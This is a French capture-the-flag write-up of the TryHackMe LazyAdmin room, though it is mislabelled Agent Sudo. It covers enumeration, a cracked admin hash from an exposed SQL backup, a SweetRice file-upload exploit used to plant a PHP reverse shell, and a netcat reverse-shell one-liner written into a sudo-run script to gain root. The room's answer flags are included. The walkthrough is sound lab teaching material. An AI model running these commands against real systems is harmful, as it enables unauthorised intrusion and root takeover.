

# THM - Agent Sudo
<p align="center">
  
</p>

Description | Difficulté | Lien
-------------|------------|-----------
Easy linux machine to practice your skills | Easy 🟢| [THM](https://tryhackme.com/room/lazyadmin)


Énumération de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 08:30 EDT
Nmap scan report for <ip>
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Le port intéressant est le 80, un site internet est derrière.

<p align="center">
  
</p>

Énumération web :
```bash
gobuster dir -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
Résultat :
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 08:34:52 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://<ip>/content/]
Progress: 141617 / 141709 (99.94%)
===============================================================
2023/04/01 08:41:12 Finished
===============================================================
```
On apprend que le site est hébergé sur un CMS qui se nomme SweetRice
<p align="center">
  
</p>

On essaye donc d'énumérer ce qu'il y a derrière /content
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 09:15:42 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://<ip>/content/images/]
/as                   (Status: 301) [Size: 317] [--> http://<ip>/content/as/]
/js                   (Status: 301) [Size: 317] [--> http://<ip>/content/js/]
/inc                  (Status: 301) [Size: 318] [--> http://<ip>/content/inc/]
/_themes              (Status: 301) [Size: 322] [--> http://<ip>/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://<ip>/content/attachment/]
Progress: 141646 / 141709 (99.96%)
===============================================================
2023/04/01 09:21:34 Finished
===============================================================
```

/as est le portail pour se connecter.

Dans /inc/ il y a un fichier intéressant "mysql_bakup_20191129023059-1.5.1.sql", en parcourant le fichier, on y remarque des informations critiques :
<p align="center">
  
</p>

Le nom de l'administrateur et un mot de passe hashé.

Avec hash-identifier, nous savons que c'est possiblement du MD5
<p align="center">
  
</p>
<p align="center">
  
</p>

On sait maintenant que le mot de passe du compte manager est ``Password123``

On se connecte et une information supplémentaire nous apparait, nous sommes en version 1.5.1.

Avec ``searchsploit`` nous déterminons que cette version à une faille d'upload de fichier arbitraire que nous allons tenter d'exploiter.
```
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                   | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                     | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                         | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                           | php/webapps/40700.html
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

On modifie le php de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pour spawn un reverse shell vers notre client.
Et on nomme notre fichier ``shell.php5``

On utilise le script de l'exploit 40716 et le fichier est envoyé.
<p align="center">
  
</p>

Maintenant, on a accès au /home/itguy/ et on remarque qu'un script est dans le home. En regardant le profil de www-data, on remarque qu'il a le droit d'exécuter ``/usr/bin/perl /home/itguy/backup.pl`` avec les droits root.

On profite pour récupérer le flag user qui se trouve dans ``/home/itguy/user.txt``

> **Note**
> Première question : What is the user flag ? ``THM{63e5bce9271952aad1113b6f1ac28a07}``

Et le script /home/itguy/backup.pl est le suivant :
```bash
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Et nos droits sur le fichier ``/etc/copy.sh`` sont en écriture.

On injecte donc un netcat pour nous faire spawn un shell en root :
```bash
echo 'mkfifo /tmp/gizgf; nc <ip-de-lattaquant> <port> 0</tmp/gizgf | /bin/sh >/tmp/gizgf 2>&1; rm /tmp/gizgf' > /etc/copy.sh
```
Et on exécute le script de la manière suivante :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
On est root et on récupère le flag. 
<p align="center">
  
</p>

> **Note** 
> Deuxième question : What is the root flag? ``THM{6637f41d0177b6f37cb20d775124699f}``